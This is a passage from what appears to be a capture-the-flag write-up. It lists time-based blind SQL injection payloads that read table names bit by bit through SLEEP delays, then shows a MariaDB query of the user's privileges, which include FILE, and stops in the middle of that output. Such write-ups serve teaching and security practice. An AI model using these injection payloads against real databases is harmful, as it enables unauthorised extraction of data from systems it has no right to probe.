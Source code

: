 ```sql
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 0 & 1) * .5)
screenshots
```

We concur that the database doesn't hold the flag inside after poking around for a while, looking through the granted privileges we see that we have the `FILE` privilege and `USAGE` on `*.*`.

```
MariaDB [(none)]> select * from information_schema.user_privileges WHERE grantee LIKE '%user%';
+-------------------+---------------+-------------------------+--------------+
| GRANTEE           | TABLE_CATALOG | PRIVILEGE_TYPE          | IS_GRANTABLE |
+-------------------+---------------+-------------------------+--------------+
| 'user_accf30'@'%' | def           | SELECT                  | NO           |
| 'user_accf30'@'%' | def           | INSERT                  | NO           |
| 'user_accf30'@'%' | def           | UPDATE                  | NO           |
| 'user_accf30'@'%' | def           | DELETE                  | NO           |
| 'user_accf30'@'%' | def           | CREATE                  | NO           |
| 'user_accf30'@'%' | def           | DROP                    | NO           |
| 'user_accf30'@'%' | def           | RELOAD                  | NO           |
| 'user_accf30'@'%' | def           | SHUTDOWN                | NO           |
| 'user_accf30'@'%' | def           | PROCESS                 | NO           |
| 'user_accf30'@'%' | def           | FILE                    | NO           |
| 'user_accf30'@'%' | def           | REFERENCES              | NO           |
| 'user_accf30'@'%' | def           | INDEX                   | NO           |
| 'user_accf30'@'%' | def           | ALTER                   | NO           |
| 'user_accf30'@'%' | def           | SHOW DATABASES          | NO           |
| 'user_accf30'@'%' | def           | SUPER                   | NO           |
| 'user_accf30'@'%' | def           | CREATE TEMPORARY TABLES | NO           |
| 'user_accf30'@'%' | def           | LOCK TABLES             | NO           |
| 'user_accf30'@'%' | def           | EXECUTE                 | NO           |
| 'user_accf30'@'%' | def           | REPLICATION SLAVE       | NO           |
| 'user_accf30'@'%' | def           | REPLICATION CLIENT      | NO           |
| 'user_accf30'@'%' | def           | CREATE VIEW             | NO           |
| 'user_accf30'@'%' | def           | SHOW VIEW               | NO           |
| 'user_accf30'@'%' | def           | CREATE ROUTINE          | NO           |
```